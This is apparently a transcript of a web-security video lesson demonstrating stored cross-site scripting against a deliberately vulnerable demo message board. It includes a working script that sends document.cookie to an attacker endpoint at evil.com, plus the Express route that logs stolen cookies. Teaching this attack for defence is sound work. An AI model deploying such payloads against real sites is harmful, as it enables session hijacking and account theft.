


Instructor: [00:00] Now that our target site is protected against man in the middle and CSURF attacks, let's put our attacker hat back on and move on to our next attack, cross-site scripting, otherwise known as XSS.

[00:12] XSS attacks occur when an attacker uses a web application to inject malicious code, generally in the form of a browser-side script to unsuspecting users on otherwise trusted application. This occurs anywhere in web application, includes user input and its output while validating or encoding it.

[00:30] The way this works is that a message gets pushed under messages array and message that gets pushed is message from our user's username, followed by the value of the message parameter from the request.

[00:44] If you notice carefully, in `messages.js`, this message isn't sanitized in anyway, nor is it validated. If we then go down to our get route, we could see the messages are just printed out again, joined by two line breaks without doing any special formatting to turn a HTML into HTML entities.

[01:02] What this means is that any HTML present in messages will just be printed out as plain HTML. We can verify that this is vulnerable to XSS by attempting to include some HTML in our message. If I say `<imagesource="http://placekitten.com/400/400">`, I could see that an actual HTML for the image is placed, rather than the string representing that HTML.



[01:34] Now that we've proven this page is vulnerable to XSS, we could do something a bit more malicious as our attacker. Let's try to steal the session cookie. We'll go to the server running evil.com, which is a pretty basic express application serving content from our static directory.

[01:50] Let's add an endpoint, which we'll call `"/hijack"`. When this endpoint is getted, let's log some information. We'll say `console.log("received cookie")` and we'll just damp the information contained in the payload parameter of our get query. We'll respond with `status(200)` and with the message OK.

#### index.js
```js
app.route("/hijack").get((request, response) => {
  console.log("areceived cookie", request.query.payload);
  response.status(200);
  response.send("ok");
})
```

[02:24] As an attacker, we want to hit this endpoint. We'll make another `script` and what this script will do is it will attempt to extract the session cookie. First we'll say our `const payload = document.cookie`. Because we're transmitting it over HTTP, we'll call `encodeURIComponent` on it.

#### Untitled-1
```html
<script>
const payload = encodeURIComponent(document.cookie);
</script>
```

[02:51] One of the easiest ways to transmit information is not via XHR or VFH, we'll just create a new image. We'll say `const img = newImage`. We'll set the source of our `image` to be equal to `https://evil.com:666/hijack`, which is our endpoint. It'll have a payload of our payload. That should do it.

```html
<script>
const payload = encodeURIComponent(document.cookie);
const img = new Image();
img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>
```

[03:27] Let's paste this message in now to our form. Hit submit. We could see that our request has gone out to evil.com:666/hijack with our payload, which contains our session ID. 



You could also notice that in the log output of our evil.com server is now printing out the cookie, thus completing our exercise attack.